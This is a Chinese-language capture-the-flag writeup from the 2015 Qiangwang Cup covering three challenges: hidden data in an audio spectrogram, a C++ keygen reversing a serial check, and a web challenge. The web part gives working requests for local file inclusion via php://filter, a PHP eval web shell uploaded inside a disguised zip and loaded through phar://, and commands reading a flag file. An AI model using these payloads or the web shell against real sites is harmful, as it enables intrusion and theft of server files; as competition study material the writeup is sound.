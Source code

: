 # 2015强网杯Writeup

## Ringtone
用audacity打开ringtone.wav，查看频率分析，如图   
![FFT](FFT.bmp)   
显然高频区有问题，切换到spectrogram模式，如图，   
![spectrogram](spectrogram.bmp)   
可看到高频区域有一些信息，以0.1+0.4*x秒的模式来读，   
翻译成二进制得0b01100110、0b00110110，   
也即是"f6..."，猜测应该是"flag{...}"，   
多看几个字符后发现每8位结尾都是0，   
于是把每8bit倒序一下，得flag   
`flag{f0r3ns1c_1s_r3al1y_v3ry_ve7y_fun}`
吐槽一下flag太长了..人肉读二进制ascii真蛋疼= =   

## keygen
ida打开，发现0x400b56是关键部分，   
![before_md5](before_md5.bmp)   
发现是把v16~v23部分与一些常数结合后md5，然后   
![after_md5](after_md5.bmp)     
把MD5字符串这些转成对应字符的ascii码整数字符串，去掉0，   
![check_md5.bmp](check_md5.bmp)   
再选第5位后字符与v8~v15比较。   
然后发现要提交10个不同的sn才过。   
   
然后写keygen，随便乱生成v16~v23部分，加上常数部分后md5一下，   
计算出对应的v8~v15后填进sn的对应位，加上-就可以了，   
最后几位sn是废的，直接填1111   

下面的代码有些细节也许不对，偶尔生成的sn有问题，但懒得看了，反正换了几个字符串来生成sn就过了   
keygen.cpp     

	#include "md5.h"
	#include <iostream>

	using namespace std;

	void calc(const char *st) {
		MD5 a(st);
		const byte *p = a.digest();
		string v42 = "", res="";
		char buff[10];
		for(int k=0; k<=15; k++) {
			sprintf(buff, "%x", p[k]>>4);
			sprintf(buff, "%d", buff[0]);
			if(buff[0]!='0')
				v42+=buff;
			sprintf(buff, "%x", p[k]&0xf);
			sprintf(buff, "%d", buff[0]);
			if(buff[0]!='0')
				v42+=buff;
		}
		int pp=0, k=5;
		while(pp<8) {
			while(v42[pp+k]=='0') k++;
			res+=v42[pp+k];
			pp++;
		}
		printf("%c%c%c%c-%c%c%c%c-%c%c%c%c-%c%c%c%c-1111\n",
			res[3],
			st[0],
			st[8],
			res[7],
			res[6],
			res[4],
			st[4],
			res[5],
			st[2],
			st[6],
			res[1],
			st[10],
			res[0],
			st[12],
			st[14],
			res[2]);
	}

	int main() {
		calc("1413191117121012");
		calc("2413191117121012");
		calc("3413191117121012");
		calc("4413191117121012");
		calc("5413191117121012");
		calc("7413191117121012");
		calc("8413191117121012");
		calc("1413191117121022");
		calc("1413191117121032");
		calc("1413191117121002");
		return 0;
	}
 

得到的sn:
```
5115-6415-1111-8111-1111
4215-1815-1191-2117-1111
4314-7815-1191-1117-1111
4419-9819-1111-9112-1111
9519-8719-1111-9112-1111
5711-2415-1191-1117-1111
5818-4515-1191-9118-1111
5119-9215-1151-7121-1111
1118-4112-1151-8137-1111
8115-5111-1181-4104-1111
```

## 俳句

容易发现url有形如`/index.php?page=[upload|view]`   
发现LFI，用php filter来获取源代码   
```
/index.php?page=php://filter/read=convert.base64-encode/resource=index
/index.php?page=php://filter/read=convert.base64-encode/resource=main
/index.php?page=php://filter/read=convert.base64-encode/resource=view
/index.php?page=php://filter/read=convert.base64-encode/resource=upload
```
发现有upload_paiju文件夹，还有index.php里有   
```
$inc=sprintf("%s.php", $p);
include($inc);
```
用%00无法截断".php"无法直接include .txt，于是用phar来绕过这个：   
制作一个名为1.txt的zip里面放a.php    
a.php: `<?php eval($_GET['cmd']);?>`
上传1.txt，用   
`/index.php?page=phar://upload_paiju/xxxxxxx.txt/a`
来成功include，然后是各种列目录：   
`/index.php?cmd=print_r(scandir('/tmp'));&page=phar://./upload_paiju/xxxxxxx.txt/a`

tmp目录，html目录(都是open_basedir)都找遍也没发现flag，    
然后是队友发现藏在/srv(另外一open_basedir下)，有个FLAG文件...    
那就`/index.php?cmd=print_r(file_get_contents('/srv/FLAG'));&page=phar://./upload_paiju/xxxxxxx.txt/a`得flag